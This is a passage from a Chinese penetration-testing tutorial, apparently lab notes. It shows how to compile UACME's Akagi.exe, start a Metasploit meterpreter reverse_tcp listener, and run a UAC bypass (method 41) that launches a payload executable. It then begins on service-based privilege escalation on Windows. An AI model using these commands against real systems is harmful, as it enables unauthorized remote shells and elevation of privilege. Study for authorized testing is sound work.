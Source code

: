 ##### 编译

在UACME 项目中，每种 `Bypass UAC`的方法都有一个数字编号，由一个名为 `Akagi.exe`（需要自行编译生成）的主程序进行统一调用，相关命令如下

![image-20241009194100176](https://image.201068.xyz/assets/38.后渗透/image-20241009194100176.png)

> `E:\learn\Penetration-tools\0.分类\5.后渗透\UACME\Source\Akagi\output\x64\Debug\Akagi.exe`

![image-20241009194216720](https://image.201068.xyz/assets/38.后渗透/image-20241009194216720.png)

##### 上传到靶机

![image-20241009194945268](https://image.201068.xyz/assets/38.后渗透/image-20241009194945268.png)

##### 监听

```python
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.70.4
set lport 8888
run
```

![image-20241009195308820](https://image.201068.xyz/assets/38.后渗透/image-20241009195308820.png)

##### 已有权限的会话运行

```python
shell
chcp 65001
cd Debug
Akagi.exe 41 C:\phpstudy_pro\WWW\vul\rce\msf_8888.exe
```

![image-20241009195542273](https://image.201068.xyz/assets/38.后渗透/image-20241009195542273.png)

###### Visual C++ Redistributable for Visual Studio 2015

https://www.microsoft.com/zh-cn/download/details.aspx?id=48145

https://download.microsoft.com/download/9/3/F/93FCF1E7-E6A4-478B-96E7-D4B285925B00/vc_redist.x64.exe

## 五.系统服务提权

通常情况下，用户安装的一些应用软件会在本地注册一些服务，并且大多数服务在计算机开机时以系统SYSTEM权限启动。应用软件在注册服务时，会在以下路径中创建相应的注册表项。

```python
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services
```

下图为 phpStudySrv 服务得注册表信息，其中的 ImagePath 键指向该系统服务所启动的二进制程序。

Windows 系统服务在操作系统启动时运行，并在后台调用其相应的二进制文件，如上图中的 phpStudySrv.exe 。
